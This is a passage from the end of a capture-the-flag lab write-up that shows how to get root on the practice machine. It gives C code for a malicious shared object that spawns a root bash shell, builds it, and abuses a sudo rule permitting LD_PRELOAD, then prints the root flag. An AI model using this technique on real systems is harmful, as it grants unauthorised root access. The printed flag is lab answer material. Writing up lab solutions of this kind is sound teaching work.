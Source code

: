 #### shell.c:

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~

Now we need to compile it and make a shared object by running the following command (`.so` extention is the same as `.dll` in windows):

~~~
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~

Now we can use the sudo permission for `sky_backup_utility` and execute the shared object as root and switch to root:

~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
root@sky:/tmp# whoami
root
~~~

## Root Flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
root@sky:/tmp# cd
root@sky:~# ls
root.txt
root@sky:~# cat root.txt 
3a62d897c40a815ecbe267df2f533ac6
~~~

Root flag: `3a62d897c40a815ecbe267df2f533ac6`

## D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )
